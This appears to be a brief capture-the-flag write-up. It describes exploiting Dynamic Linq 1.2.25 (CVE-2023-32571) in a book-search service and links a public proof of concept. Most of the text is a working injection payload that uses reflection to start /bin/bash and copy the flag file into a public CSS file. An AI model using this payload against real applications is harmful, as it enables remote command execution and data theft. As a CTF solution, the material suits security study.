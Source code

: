 Check CRUD.dll and see it does SQL like queries (and that's about it) using Dynamic Linq 1.2.25 (see crud.deps.json), search "dynamic linq 1.2.25 cve poc" leading you to [this](https://github.com/Tris0n/CVE-2023-32571-POC) and use that to write the flag to a public file as you cannot get a reverse shell due to the request being passed to an internal program (ex. when you send a book search query).

```") && "".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "/bin/bash;-c \"cat /flag* >> /app/src/wwwroot/css/site.css\"".Split(";".ToCharArray())).GetType().ToString() == ("```
